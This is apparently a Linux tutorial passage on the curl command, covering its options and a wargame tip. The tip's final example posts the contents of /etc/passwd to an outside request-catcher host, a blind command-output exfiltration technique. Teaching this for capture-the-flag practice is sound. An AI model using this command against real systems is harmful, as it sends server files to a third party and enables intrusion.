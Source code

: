Short for client URL, data transfer command that sends data to or receives data from server. It is available in the form curl  OPTIONS URL and supports a variety of protocols, including HTTP, HTTPS, and FTP. Below is an example of receiving and printing the content of the web server.
```
user@user-VirtualBox:~$ curl https://www.google.com
<!doctype html><html itemscope="" itemtype="http://schema.org/WebPage" lang="ko"> 
... (omitted)
user@user-VirtualBox:~$
```
The main options for the curl are 
- -o file: save the received data to a file
- -i: include HTTP response headers in the result value
- -X "method": specify the HTTP request method
- -d "key: value": send data with the HTTP POST method

Is also a useful for solving wargame challenges. For example, if one can execute any shell commands but cannot see the output result directly, the result can be included in curl command and can be sent to the one's web server. Below is an example of sending the /etc/passwd file on the server as POST data to webserver.
```
$ curl "https://hmqtzgx.request.dreamhack.games" -d "`cat /etc/passwd`"
```